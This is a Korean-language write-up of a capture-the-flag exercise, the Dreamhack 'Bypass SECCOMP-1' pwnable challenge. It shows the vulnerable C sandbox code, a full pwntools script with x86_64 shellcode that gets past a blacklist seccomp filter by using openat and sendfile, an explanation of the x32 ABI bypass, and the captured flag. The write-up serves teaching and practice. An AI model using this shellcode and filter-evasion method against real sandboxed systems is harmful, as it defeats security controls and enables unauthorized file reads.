



# S2 · Bypass SECCOMP-1

### 1. 문제 확인

`pwnable` 분류의 S2 문제. 입력한 **쉘코드를 그대로 실행**해 주는데, 실행 직전에 seccomp 필터를 걸어 일부 syscall을 막는다. `execve`로 셸을 못 띄우니, 막히지 않은 syscall만으로 플래그 파일을 읽어내야 한다.

<p align="center">
  
</p>

### 2. 코드

```c
void sandbox() {
  scmp_filter_ctx ctx = seccomp_init(SCMP_ACT_ALLOW);   // 기본 허용
  seccomp_rule_add(ctx, SCMP_ACT_KILL, SCMP_SYS(open), 0);
  seccomp_rule_add(ctx, SCMP_ACT_KILL, SCMP_SYS(execve), 0);
  seccomp_rule_add(ctx, SCMP_ACT_KILL, SCMP_SYS(execveat), 0);
  seccomp_rule_add(ctx, SCMP_ACT_KILL, SCMP_SYS(write), 0);
  seccomp_load(ctx);
}

int main() {
  void *shellcode = mmap(0, 0x1000, PROT_READ|PROT_WRITE|PROT_EXEC, ...);
  read(0, shellcode, 0x1000);   // 쉘코드 입력
  sandbox();                    // 필터 적용
  ((void(*)())shellcode)();     // 쉘코드 실행
}
```

필터는 **블랙리스트**다. `open`, `write`, `execve`, `execveat`만 `KILL`하고 나머지는 전부 허용한다. 플래그는 Dockerfile 기준 `/home/bypass_seccomp/flag`에 있다.

### 3. 익스플로잇 코드

<p align="center">
  
</p>

```python
#!/usr/bin/env python3
from pwn import *
context.arch = 'x86_64'
p = remote('host3.dreamhack.games', 9667)
data = '''
xor rdi, rdi            /* openat: dirfd=0 (절대경로라 무시) */
lea rsi, [rip+path]     /* pathname */
xor rdx, rdx            /* flags=0 (O_RDONLY) */
mov rax, 257           /* openat */
syscall                 /* rax = fd */
mov rsi, rax           /* sendfile: in_fd = 열린 fd */
mov rdi, 1             /* out_fd = stdout(소켓) */
xor rdx, rdx           /* offset = 0 */
mov r10, 0xffff        /* count */
mov rax, 40            /* sendfile */
syscall
xor rdi, rdi
mov rax, 60            /* exit */
syscall
path: .asciz "/home/bypass_seccomp/flag"
'''
p.sendline(asm(data))
p.interactive()
```

### 4. 어셈블러 설명

syscall 3개가 전부다.

- **`openat(0, path, 0)`** (번호 257) → 파일을 열고 fd를 `rax`로 받는다. `open`이 막혀서 대신 쓴다. openat은 인자가 `(dirfd, pathname, flags)`라 `rdi=0`, `rsi=path`, `rdx=0`.
- **`sendfile(1, fd, 0, 0xffff)`** (번호 40) → in_fd(파일)에서 out_fd(stdout)로 **커널이 직접 복사**한다. `read`+`write`를 한 번에 대신하므로, 막힌 `write` 없이 파일 내용을 그대로 소켓(화면)에 쏟는다. count(`r10`)는 넉넉히 `0xffff`.
- **`exit(0)`** (번호 60) → 깔끔하게 종료.

### 5. `rip+path`에 플래그 경로가 어떻게 담기나

맨 끝 `path: .asciz "/home/bypass_seccomp/flag"`는 **쉘코드 바이트 뒤에 그 문자열이 그대로 박힌다**(널 종료 포함). 즉 우리가 보낸 쉘코드 안에 경로 문자열이 같이 들어가 있다.

`lea rsi, [rip+path]`는 **실행 시점의 `rip` 기준 상대 주소**로 그 문자열의 런타임 주소를 계산해 `rsi`에 넣는다. 쉘코드가 mmap된 주소가 매번 달라도, `rip` 상대라 항상 올바른 문자열 위치를 가리킨다. 그래서 하드코딩 주소 없이 `openat`의 pathname 인자로 플래그 경로를 넘길 수 있다.

### 6. 왜 x32(`0x40000000`)는 못 썼나

흔한 우회로 syscall 번호에 `0x40000000`(x32 ABI 비트)을 더해 `open`/`read`/`write`를 그대로 쓰는 방법이 있다. 필터는 `nr == 2`(open)만 검사하는데 `nr`이 `0x40000002`가 되어 **검사를 스쳐 지나가기** 때문이다.

이 방법은 **커널이 x32 ABI를 지원할 때만** 동작한다. 로컬에선 보통 켜져 있어 되지만, 이 원격 서버 커널은 x32가 꺼져 있어 `open(0x40000002)`가 `-ENOSYS`로 실패하고 바로 EOF가 난다. 그래서 x32 대신, 커널 지원과 무관한 아래 "다른 syscall로 갈아타기"를 쓴다.

### 7. 우회 핵심

필터가 **특정 syscall 번호만** `KILL`한다는 게 구멍이다. 같은 일을 하는 **다른 번호의 syscall**은 그대로 통과한다.

- `open`(막힘) → `openat`(허용)으로 파일 열기
- `write`(막힘) → `sendfile`(허용)으로 파일→소켓 복사 (`read`+`write` 대체)

둘 다 필터의 KILL 목록에 없어서, 필터를 전혀 건드리지 않고 플래그를 읽어낸다.

### 8. 실행 결과

<p align="center">
  
</p>

```text
DH{fdac9699a765693377fe6595a82744934ed91185f0300447c45f143a0c08c8c1}
```
